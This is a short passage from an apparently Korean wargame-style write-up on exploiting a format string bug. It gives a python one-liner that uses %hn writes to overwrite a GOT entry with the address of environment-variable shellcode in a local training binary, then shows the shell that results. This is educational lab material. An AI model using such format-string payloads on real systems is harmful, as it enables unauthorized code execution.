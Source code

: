 현재 GOT는 `0x804a010` 위치에 존재한다. 해당 위치의 4바이트를 쉘 코드가 위치한 환경변수의 주소로 변조한다.

```
root@shh0ya-Linux:~/pwn/fsb# (python -c 'print "AA\x10\xa0\x04\x08"+"AAAA\x12\xa0\x04\x08"+"%55316x%hn"+"%10205x%hn"'; cat)|./exam

AAAAAA .... 4141e550 ... 41414141

ls
a.out  env  env.c  exam  exam.c  norm.c  peda-session-a.out.txt  peda-session-exam.txt
     
pwd
/root/pwn/fsb
```

위와 같이 쉘을 획득할 수 있는 것을 볼 수 있다.











